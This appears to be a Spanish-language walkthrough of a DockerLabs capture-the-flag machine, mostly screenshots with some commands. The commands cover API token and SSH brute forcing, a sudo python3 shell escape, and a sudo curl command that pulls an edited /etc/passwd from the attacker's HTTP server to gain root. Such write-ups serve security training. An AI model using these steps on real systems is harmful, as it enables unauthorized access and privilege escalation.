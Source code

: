 nmap: 22, 5000

![image](https://github.com/user-attachments/assets/ebd72e6c-0cae-4a3a-a87b-32bd4d6d0d17)

entramos a la pagina por el puerto 5000

![image](https://github.com/user-attachments/assets/811b2243-4273-4387-9dc2-b4026ae5c599)

en la pagina nos da un código:

![image](https://github.com/user-attachments/assets/01e2fd20-e3b2-45c1-b936-a64d0e668314)

que si lo probamos da

![image](https://github.com/user-attachments/assets/6cd6e0a2-07ab-4874-be96-ca4646d644df)

nada interesante en si. pero en la pagina veremos algo, que cada ejemplo de API por ejemplo, GET O POST y así, tienen como comienzo "/api"

![image](https://github.com/user-attachments/assets/61cb2c5e-63f7-4eb6-abf2-0d7dcadce5e8)

hacemos un gobuster

![image](https://github.com/user-attachments/assets/05c80861-d4eb-4b1b-a349-56cdcd0beaad)

y nos da "users", lo probamos

![image](https://github.com/user-attachments/assets/f63bc726-1636-48bd-a84e-69a8bb5b039b)

pero la verdad no da mucho mas, buscamos alguna forma de explotar esto, buscamos alguna explotación de "APIs"  y encontre esta: https://github.com/Maalfer/bruteapi/blob/main/bruteapi.sh
que es un .sh, así que nos copiamos el código, creamos un .sh y le damos permisos de ejecución.  

como de por si el ".sh" no esta funcionando o dando algo, lo lanzamos con el comando que nos dio la pagina al principio

     curl -H "Authorization: Bearer password_secreta" http://localhost:5000/api/directorio_oculto

pero medicando para que me de alguna respuesta diferente porque de por si el, ".sh"  es para hacer fuerza bruta, pero basados en el código que nos dieron.  lanzamos

     bash exploit.sh http://172.17.0.2:5000/api/users /usr/share/wordlists/rockyou.txt

![image](https://github.com/user-attachments/assets/4acb1075-cd47-42e6-9fdb-43ba010f6058)

![image](https://github.com/user-attachments/assets/b6c688fc-31f7-49db-82ea-b472b35e5996)

obtenemos la contraseña

     password1

y utilizamos la opción 2 que es `Bearer Token`, lo que intentara dar como una ¨coincidencia¨  

entonces si lanzamos el comando

     curl -H "Authorization: Bearer password1" http://172.17.0.2:5000/api/users

![image](https://github.com/user-attachments/assets/cb1e8a2d-6a50-400c-9fe9-a9e905f123b2)

cambiamos en el código la "password_secreta" por la contraseña encontrada, cambiamos la IP a la de la maquina victima y "directorio_oculto" por "users" que fue lo que nos dio el gobuster. 
entonces obtenemos dos nombres 

     bob y dylan

hacemos una fuerza bruta:

![image](https://github.com/user-attachments/assets/fcfaa2e0-7165-4d07-a781-bdd9f0ff1eb5)

obtenemos a "bob" y "password1" y tenemos la conexion

![image](https://github.com/user-attachments/assets/ae41145a-bf80-43de-a64e-404bc3e0ca35)

dentro tenemos esto

![image](https://github.com/user-attachments/assets/a120b915-9440-4141-863f-60d680423e99)

un python3 y un "app.py", buscamos el de python3 https://gtfobins.github.io/gtfobins/python/#sudo

![image](https://github.com/user-attachments/assets/871ece54-cf63-483a-8345-3fc0a733595e)

lanzamos

     sudo -u balulero python3 -c 'import os; os.system("/bin/sh")'

y somos el usuario balulero

![image](https://github.com/user-attachments/assets/1b8f12b8-4ccc-4ddd-a6fd-b3d74c0b4dc6)

tenemos dentro un curl 

![image](https://github.com/user-attachments/assets/27228485-12ca-467b-8088-22bdcaa04472)

lo buscamos en gtf igual

![image](https://github.com/user-attachments/assets/a710f529-f3a5-4079-a34d-f7f5dca66292)

y tendremos que abrir un servidor y clonar en este caso el archivo "passwd" 

![image](https://github.com/user-attachments/assets/31c0fc41-4111-43fe-a2e3-45917d09aedf)

entonces copiamos el archivo de passwd desde la carpeta victima y en nuestra terminal le sacamos la "x" entonces ahora vamos a pasar desde nuestra maquina a la victima el archivo modificado desde un servidor como nos indica lo de FTFOBINS. 

abrimos el servidor 

     python3 -m http.server 

en la terminal victima colocamos 

    URL=http://172.17.0.1:8000/passwd
    LFILE=/etc/passwd
    sudo curl $URL -o $LFILE

entonces tendremos algo así 

![[server.png]]

ahora verificamos que se remplazo el archivo por el modificado

![[dockerlabs/medio/apiroot/root1.png]]

y vemos que no tiene la "x" así que se modifico correctamente, ahora haremos un "su root"

![[dockerlabs/medio/apiroot/rootf.png]]

y somos root! 
